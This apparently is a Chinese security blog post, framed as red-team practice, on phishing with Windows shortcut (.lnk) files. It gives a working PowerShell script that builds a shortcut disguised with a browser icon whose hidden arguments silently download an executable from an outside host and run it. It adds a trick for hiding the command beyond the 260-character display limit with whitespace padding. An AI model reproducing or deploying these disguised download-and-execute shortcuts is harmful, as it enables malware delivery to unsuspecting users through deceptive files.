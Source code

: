 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.chabug.org](https://www.chabug.org/tools/2017.html)

[syst1m](https://www.chabug.org/author/syst1m) • 2021 年 1 月 4 日 pm7:23 • [工具分享](https://www.chabug.org/topics/tools), [渗透测试](https://www.chabug.org/topics/web) • 阅读 588

*   前言

**在常年攻防演练以及红蓝对抗中常被用于红方攻击的一种进行打点的方式，由于本人只是个安服仔，接触的比较少（但也不能不学），就有了这篇文章，参考各位大佬的姿势总结一下。**

钓鱼手段
----

### Lnk（快捷方式）

可以在 “⽬标” 栏写⼊⾃⼰的恶意命令，如 powershell 上线命令等，这里举例为 CMD

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103160612-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103160612-1.png)

当我点击谷歌浏览器时，弹出了 CMD

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103160947-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103160947-1.png)

可以进行更改图标

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103161253-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103161253-1.png)

*   快速生成 lnk 样本

```
$WshShell = New-Object -comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"  
$Shortcut.Arguments = "cmd /c powershell.exe -nop -w hidden -c IEX (new-object net.webclient).DownloadFile('http://192.168.1.7:8000/ascotbe.exe','.\\ascotbe.exe');&cmd /c .\\ascotbe.exe"  
$Shortcut.Save()
```

运行

```
powershell -ExecutionPolicy RemoteSigned -file test.ps1
```

[![](https://www.chabug.org/wp-content/uploads/2021/01/20210103163314-1.png)](https://www.chabug.org/wp-content/uploads/2021/01/20210103163314-1.png)

*   Tips

**目标文件位置所能显示最大字符串为 260 个，所有我们可以把执行的命令放在 260 个字符后面**

```
$file = Get-Content ".\test.txt"  
$WshShell = New-Object -comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"  
$Shortcut.Arguments = '                                                                                                                                                                                                                                      '+ $file  
$Shortcut.Save()
```
